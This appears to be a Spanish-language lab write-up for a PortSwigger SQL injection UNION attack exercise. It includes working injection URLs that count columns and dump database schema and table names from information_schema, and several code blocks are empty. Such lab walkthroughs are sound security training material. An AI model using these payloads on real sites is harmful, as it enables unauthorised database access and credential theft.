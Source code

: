 # `Lab`: SQL injection UNION attack, retrieving data from other tables

- [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a **SQL injection UNION attack** that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

### Explicación:

- En este laboratorio ya se acerca a un escenario "real" donde a partir del SQLi debo exfiltrar datos que contengan un `username` y `password`
- Para hacer esto, en realidad ya debo **enumerar** la base de datos o `database schema`, incluyendo `data bases`, `tables`, `columns` y `data`.
- Aquí es donde ya se pueden comenzar a hacer `DIOS - Dump In One Shot` y ese tipo de travesuras.
- A travez de `querys SQL` es como debo manipular las consultas para arrojar la información que yo necesite para enumerar la `database`.
- En caso que haya `WAF - Web Application Firewall` las querys se deben manipular con diferentes tecnicas de `ofuscation`, `encoding`, etc. para lograr hacer `bypass` de ese `WAF`. _(En este laboratiorio no hay WAF)_ 

#### Query original:

````sql

````

#### Query inyectada:

````sql

````

---

### Explicación con Lab:

1.

````sql

````
````py

````



## Solución:

````py
# Original
https://666.web-security-academy.net/filter?category=Accessories

# Vulnerabilidad
https://666.web-security-academy.net/filter?category=Accessories' 

# Sanar el Query
https://666.web-security-academy.net/filter?category=Accessories' -- -

# Contando Columnas en la tabla que estoy (total = 2)
https:/666.web-security-academy.net/filter?category=Accessories' ORDER BY 2 -- -

# NOT WORKING!!! Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT 1,2 -- -

# Working!!! Invisible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT null,null -- -
# Working!!! Visible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1','2' -- -

### DUMP: schema, tables, columns

    # OJO!!! `Depende el lado de la inyección irá el "UNION SELECT <--> schema_name"`

## Opt1 - Dump: schema_name = DBs 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',schema_name FROM information_schema.schemata -- -
## Opt2 - Dump: schema_name = DBs
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT schema_name,'2' FROM information_schema.schemata -- -
    ### [DUMP = DB = 1. pg_catalog]
    ### [DUMP = DB = 2. public]

## Opt1 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT  '1',table_name FROM information_schema.tables -- -
## Opt2 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables -- -
## Opt3 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT  '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
## Opt4 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables WHERE table_schema = 'public' -- -
````










